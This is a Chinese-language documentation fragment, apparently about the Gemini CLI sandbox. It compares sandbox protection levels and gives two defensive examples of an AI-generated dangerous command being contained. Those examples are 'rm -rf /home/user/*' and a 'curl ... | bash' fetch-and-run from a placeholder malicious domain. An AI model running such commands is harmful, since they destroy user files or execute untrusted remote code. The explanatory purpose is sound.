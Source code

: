 #### 保护效果
- ✅ **系统保护**: 无法执行危险系统调用
- ✅ **服务隔离**: 无法访问系统服务
- ✅ **权限最小化**: 只允许必要的操作

## 🔒 安全级别对比

| 沙盒类型 | 文件保护 | 网络保护 | 进程保护 | 适用场景 |
|----------|----------|----------|----------|----------|
| **无沙盒** | ❌ 无 | ❌ 无 | ❌ 无 | 开发调试 |
| **permissive-open** | ✅ 部分 | ❌ 无 | ✅ 部分 | 日常使用 |
| **permissive-closed** | ✅ 部分 | ✅ 完全 | ✅ 部分 | 安全敏感 |
| **permissive-proxied** | ✅ 部分 | ✅ 代理 | ✅ 部分 | 企业环境 |
| **restrictive-open** | ✅ 严格 | ❌ 无 | ✅ 严格 | 高安全 |
| **restrictive-closed** | ✅ 严格 | ✅ 完全 | ✅ 严格 | 最高安全 |
| **容器化沙盒** | ✅ 完全 | ✅ 可控 | ✅ 完全 | 生产环境 |

## 🎯 实际保护案例

### 案例 1: 防止意外删除
```bash
# 用户要求 AI 清理项目
gemini -p "清理项目中的临时文件"

# AI 可能生成危险命令
rm -rf /home/user/*  # 危险！

# 沙盒保护效果
# ✅ 只允许删除项目目录内的文件
# ✅ 无法删除用户主目录
# ✅ 无法删除系统文件
```

### 案例 2: 防止恶意下载
```bash
# 用户要求 AI 下载依赖
gemini -p "下载项目依赖"

# AI 可能生成危险命令
curl http://malicious-site.com/install.sh | bash  # 危险！

# 沙盒保护效果
# ✅ 网络代理可以阻止恶意域名
# ✅ 可以审计所有网络请求
# ✅ 可以限制下载内容
```
